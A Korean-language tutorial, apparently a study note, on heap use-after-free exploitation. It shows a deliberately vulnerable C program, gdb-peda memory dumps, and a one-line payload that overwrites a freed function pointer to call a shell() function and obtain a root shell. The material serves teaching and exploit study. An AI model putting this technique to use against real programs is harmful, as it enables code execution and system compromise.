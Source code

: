 # **User After Free**

Heap 영역에 할당을 할때 Free 해준 공간을 다시 재사용하여 발생하는 취약점이다. 만약 함수포인터가 동적할당이 되어있을 경우 실행흐름도 조작 가능하다.  

공격자가 Heap 영역을 할당하거나 해제할 수 있어야하고 해제된 영역의 크기와 같거나 작은 영역을 할당해야 한다.

## **Proof of Concept**

```c
// gcc uaf.c -o uaf
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
typedef struct {
    char name[32];
    void (*print)(void*);
} test;
 
typedef struct {
    char name[128];
} string;
 
void printName(test *t) {
    printf("%s\n", t->name);
}
 
void shell() {
    printf("This is shell!! You know UAF vuln!\n");
    system("/bin/sh");
}
 
int main() {
    test* t1;
    string *s1;
    t1 = malloc(256);
    
    strcpy(t1->name, "I LOVE CHAEYOUNG");
    t1->print = (void*)printName;
    
    t1->print(t1);
    
    free(t1);
    
    s1 = malloc(256);
    
    scanf("%128s", s1->name);
    t1->print(t1);
    return 0;
}
```

malloc() 함수로 Heap을 재할당 하는 부분에서 Breakpoint를 걸고 확인해보면 t1에서 사용했던 함수 포인터(printName)를 확인할 수 있다. t1->name은 fk, bk로 채워진 것을 확인할 수 있다.

```
[-------------------------------------code-------------------------------------]
   0x4006ee <main+82>:	call   0x400500 <free@plt>
   0x4006f3 <main+87>:	mov    edi,0x100
   0x4006f8 <main+92>:	call   0x400540 <malloc@plt>
=> 0x4006fd <main+97>:	mov    QWORD PTR [rbp-0x8],rax
   0x400701 <main+101>:	mov    rax,QWORD PTR [rbp-0x8]
   0x400705 <main+105>:	mov    rsi,rax
   0x400708 <main+108>:	mov    edi,0x4007e3
   0x40070d <main+113>:	mov    eax,0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006fd in main ()
gdb-peda$ info r rax
rax            0x602010	0x602010
gdb-peda$ x/12gx 0x602010
0x602010:	0x00007ffff7dd1b78               0x00007ffff7dd1b78
0x602020:	0x0000000000000000               0x0000000000000000
0x602030:	0x0000000000400666 <- printName  0x0000000000000000

gdb-peda$ x/3i 0x0000000000400666
   0x400666 <printName>:	push   rbp
   0x400667 <printName+1>:	mov    rbp,rsp
   0x40066a <printName+4>:	sub    rsp,0x10
```

따라서 32 byte를 입력 후 함수 포인터에 &shell()를 입력하면 t1->print(t1)을 호출하므로 shell()을 호출이 가능하다.

```
gdb-peda$ x/12gx 0x602010
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4242424242424242 	0x0000000000000000

gdb-peda$ p shell
$1 = {<text variable, no debug info>} 0x400681 <shell>
```

## **Exploit**
```
root@bs-virtual-machine:~/pwnable/uaf# (python -c 'print "A"*32 + "\x81\x06\x40"';cat) | ./uaf
UAF TEST!!!
This is shell!! You know UAF vuln!

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/root/pwnable/uaf
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=1148139>  
<https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/>  
<https://shotgh.tistory.com/62>  